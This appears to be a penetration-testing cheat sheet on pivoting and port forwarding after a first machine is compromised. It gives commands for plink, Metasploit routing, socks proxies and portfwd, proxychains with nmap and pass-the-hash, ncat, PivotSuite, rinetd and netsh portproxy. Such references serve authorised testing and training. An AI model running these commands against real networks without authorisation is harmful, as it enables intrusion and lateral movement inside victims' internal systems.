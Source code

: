 # 🔧 Other Tools

## plink (windows)

```
plink.exe -l root -R 445:127.0.0.1:445 YOURIPADDRESS
```

## Metasploit

### MANUAL ROUTE

this method will give the full access to the target IP address like its siting in our lan ( only accessible in metasploit )

```
background the session
route add 10.0.1.0/24 [session id]
```

### AUTO ROUTE

this method will give the full access to the target IP address like its siting in our lan ( only accessible in metasploit )

```
run autoroute -p >>> list active routing tables
run autoroute -s 10.1.1.0 -n 255.255.255.0 >>> netmask is optional
run autoroute -d -s 10.10.10.1  >>> delete autoroute on ip
run autoroute -s 10.10.10.1/24 >>> can use CIDR
```

### PROXY

add a proxy to proxychains.conf and use it inside and outside of metasploit

```
use auxiliary/server/socks4a
use auxiliary/server/socks5
use auxiliary/server/socks_unc
set srvport 8080 → set proxy local port
```

add 127.0.0.1 8080 to proxychains and make sure there are no other proxies in the config file:

```
socks4  127.0.0.1  8080
```

now run commands with proxychains prefix

```
proxychains nmap -Pn -sT -sV -p- [target]
proxychains pth-winexe -U windows10/user123//10.0.1.5 cmd.exe
```

### PORT FORWARD

forward only the given remote port to the given local port specifically ( only accessible in msfconsole )

```
portfwd [add | delete | list | flush]  -L [optional local ip] -l [local port] -p [remote port] -r [remote ip]

portfwd add -L 0.0.0.0 -l 8000 -p 80 -r 10.1.0.5
```

now we can scan our local port 8000 to scan the remote port 80 of the target

### PIVOTING BIND SHELL

usually used when exploiting a machine in the internal network. first we have to do port forwarding to scan the network

```
portfwd add -L 0.0.0.0 -l 8000 -p 80 -r 10.1.0.5
```

now add a route to target ip in the internal network

```
route -h
route add 10.0.1.5/24 [session number] 
```

now choose your exploit and set the rhost to the target ip in the internal network and run the exploit and remember:

```
background# meterpreter session
route add <IP_victim> <Netmask> <Session> # (ex: route add 10.10.10.14 2552.55.255.0 8)
use auxiliary/server/socks4a
run #Proxy port 1080 by default
echo "socks4 127.0.0.1 1080" > /etc/proxychains.conf #Proxychains
```

Another way:

```
background #meterpreter session
use post/windows/manage/autoroute
set SESSION <session_n>
set SUBNET <New_net_ip> #Ex: set SUBNET 10.1.13.0
set NETMASK <Netmask>
run
use auxiliary/server/socks4a
run #Proxy port 1080 by default
```

{% hint style="warning" %}
ALLWAYS USE A BIND SHELL WHILE PIVOTING
{% endhint %}

if we use a reverse shell the target machine on the internal network wont be able to route back the packets to us

![](<../.gitbook/assets/image (267).png>)

### PIVOTING REVERSE SHELL

while using a reverse shell with pivoting we have to set the RHOST to target ip in the internal network and set the LHOST to the machine that we have already compromized

```
RHOST >>> internal target
LHOST >>> compromized machine
```

![](<../.gitbook/assets/image (269).png>)

## Ncat

```
# Ncat =/= netcat
# Enhanced version, developped by nmap dev and often packaged with
# Ciphered connexion, IP restriction
# To pivot, needed on both attacker and pivot machine

# Attacker (broker == accept multiple connexions)
$ ncat -lv --broker --max-conns 2

# Pivot
# We connect to attacker and target
$ ncat -v 192.168.2.149 31337 -c 'ncat -v 10.42.42.2 80'
```

## PivoteSuite

```
# Similar features to other tools but support multilevel pivot
# Like Metasploit

# "Remote" local port forwarding
# On the pivot
$ pivotsuite -S -F --server-option=PF --forward-ip=10.42.42.2 --forward-port=80 --server-ip=192.168.2.105 --server-port=8080

# "Remote" dynamic port forwarding
$ pivotsuite -S -F --server-option=SP --server-ip=192.168.2.105 --server-port=8080
```

## RINETD

```
 sudo apt install rinetd
```

edit the config file:

```
nano /etc/rinetd.conf
```

![](<../.gitbook/assets/image (268).png>)

```
service rinetd restart
```

bind address is attacker machine bind port is the listening incoming port connectaddress is the address to forward the traffic to and connectport is the target port.

## NETSH (Windows)

{% hint style="warning" %}
for this to work, the Windows system must have the IP Helper service running and IPv6 support must be enabled for the interface we want to use. Fortunately, both are on and enabled by default on Windows operating systems.
{% endhint %}

```
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
```

test:

```
smbclient -L 10.11.0.22 --port=4455 --user=Administrator
```





